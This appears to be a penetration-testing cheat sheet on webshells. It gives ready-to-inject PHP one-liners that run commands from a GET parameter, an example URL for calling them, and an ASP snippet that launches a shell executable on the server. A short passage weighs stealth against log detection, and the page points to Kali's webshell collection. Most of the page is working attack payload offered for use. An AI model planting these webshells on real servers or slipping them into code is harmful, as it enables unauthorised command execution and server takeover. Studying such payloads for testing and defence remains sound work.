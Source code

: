 # Webshell

## PHP - Basic cmd-shell

This code can be injected into pages that use php.
```
<?php system($_GET['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
<?php echo shell_exec("whoami");?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## Webshells

Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
